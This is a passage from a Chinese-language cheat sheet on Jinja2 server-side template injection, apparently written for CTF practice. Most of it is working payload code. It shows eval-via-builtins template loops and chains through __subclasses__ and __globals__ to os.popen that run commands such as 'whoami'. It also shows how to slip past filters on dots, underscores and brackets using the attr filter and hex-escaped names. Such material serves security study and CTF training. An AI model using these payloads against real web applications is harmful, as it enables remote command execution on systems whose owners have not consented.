 ```python
	{% if f == bul %} 
		{% for a,b in v.items() %}  #builtins
			{% if a == ev %} #eval
				{{b(pld)}} #eval(pld)
			{% endif %}
		{% endfor %}
	{% endif %}
{% endfor %}
```

## 过滤 . _ 和 []

利用模板中的过滤器

 **attr** 

> Get an attribute of an object. 
> foo|attr("bar") works like foo.bar 
> just that always an attribute is returned and items are not looked up.

```python
""|attr("__class__")
相当于
"".__class__
```

```python
{{ config.__class__.__init__.__globals__['os'].popen('flag').read() }}
=>
{{ config|attr("__class__").__init__.__globals__['os'].popen('flag').read() }}
```

```python
().__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
=>
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(59)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
=>
{{()|attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f')|attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f')|attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')()|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')(59)|attr('\x5f\x5f\x69\x6e\x69\x74\x5f\x5f')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x65\x76\x61\x6c')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x22\x6f\x73\x22\x29\x2e\x70\x6f\x70\x65\x6e\x28\x22\x77\x68\x6f\x61\x6d\x69\x22\x29\x2e\x72\x65\x61\x64\x28\x29')}}
```

> 字符转换
>
> ```python
> str = 'eval'
> for i in str:
>     print(hex(ord(i)).replace('0x', '\\x'), end='')
> ```



# 参考

https://xz.aliyun.com/t/2308

https://blog.csdn.net/miuzzx/article/details/110220425

https://lazzzaro.github.io/

https://www.gem-love.com/ctf/2598.html

